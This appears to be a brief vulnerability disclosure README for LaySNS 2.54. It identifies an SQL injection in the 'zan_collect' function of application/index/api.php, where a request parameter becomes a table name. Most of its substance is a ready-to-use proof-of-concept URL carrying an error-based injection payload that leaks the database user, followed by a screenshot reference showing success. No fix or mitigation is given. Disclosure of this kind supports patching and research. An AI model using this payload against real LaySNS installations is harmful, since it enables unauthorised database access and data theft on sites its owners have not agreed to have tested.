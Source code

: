 # laysns2.54_sqlInjection
The vulnerability is in application/index/api.php file, "zan_collect" function
 ![](img/1.png)
line 153 exist a sql methed, parameter $zan_collect will be the table name.
the parameter $zan_collect come from the array $data,we can control it.
![](img/2.png)
poc:
/index/api/zan_collect?id=1&type=1&zan_collect=comment where uid=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a)--+
success:
![](img/3.png)
